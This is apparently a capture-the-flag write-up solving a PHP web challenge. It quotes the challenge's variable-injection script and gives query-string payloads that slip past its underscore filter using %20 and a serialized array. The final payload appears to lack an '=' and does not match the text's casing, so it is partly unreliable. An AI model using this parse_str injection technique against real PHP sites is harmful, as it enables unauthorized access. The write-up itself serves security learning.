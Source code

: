 # Madara

![chall_head](images/chall_head.png)

## Solve

When we run the instance, the challenge gives the script on the main page

```php
<?php
//Config
ini_set('display_errors', 0);
ini_set('display_startup_errors', 0);
error_reporting(0);
//Some Jutsu :D
highlight_file(__FILE__);
include 'secret.php' ;
$_=['_'=>'YogoshaBlaBlaBla','__'=>'Grr'];
foreach($_ as $k=>$v){
    ${'_'.$k}=$v ;
    }
$query=$_SERVER["QUERY_STRING"];
parse_str($query);
if ((substr_count($query,'_')>=4)||(substr_count($query,'.')>0)){
    die('You have used too much _');
}
if(@$__==='Madara'){
    if(unserialize(@$___)['o']['k']==='imBored'){
        echo $flag ;}
    else die("No No");
}
else die("it's too EZ go go");
?>
```

The script sets a variable called `$_`, this variable contains `['_'=>'YogoshaBlaBlaBla','__'=>'Grr']`, then, it adds one `_` to all keys. So, it becomes  `['__'=>'YogoshaBlaBlaBla','___'=>'Grr']`.

The program then uses `parse_str`, which does :
```php
$a = "i=5&c=aaa";
parse_str(a);
echo $i; # 5
echo $c; # aaa
```

So, we need to set the variables `$__ = Madara` and `unserialize($___)[o][k] = imBored`, with less than 5 `_` in our querry.

For the first, it's quite simple,

```
http://instances.challenge-ecw.fr:33216/?=a&__=Madara
```

This payload will set the variables : 
```
http://instances.challenge-ecw.fr:33216/? = a
__ = Madara
```

One way to bypass the underscore limit is bu using `%20`, that is translated `_` by `parse_str`.

This only works if we have a previous _ before using `%20`, for example, if we change our first payload, it gives : 

```
http://instances.challenge-ecw.fr:33216/?=a&_%20=Madara
```

So, to finish this challenge, it only remains to serialize the varaible `['o' => ['k' => 'ImBored']]`

```
a:1:{s:1:"o";a:1:{s:1:"k";s:7:"imBored";}}
```

If we use the same trick for this variable, we end with : 

```
__%20a:1:{s:1:"o";a:1:{s:1:"k";s:7:"imBored";}}
```

So, the full payload is 

```
http://instances.challenge-ecw.fr:33216/?=a&_%20=Madara&__%20a:1:{s:1:"o";a:1:{s:1:"k";s:7:"imBored";}}
```

And here we have the flag `ECW{C3u7pdBCAfsmbp8eq5T2}`.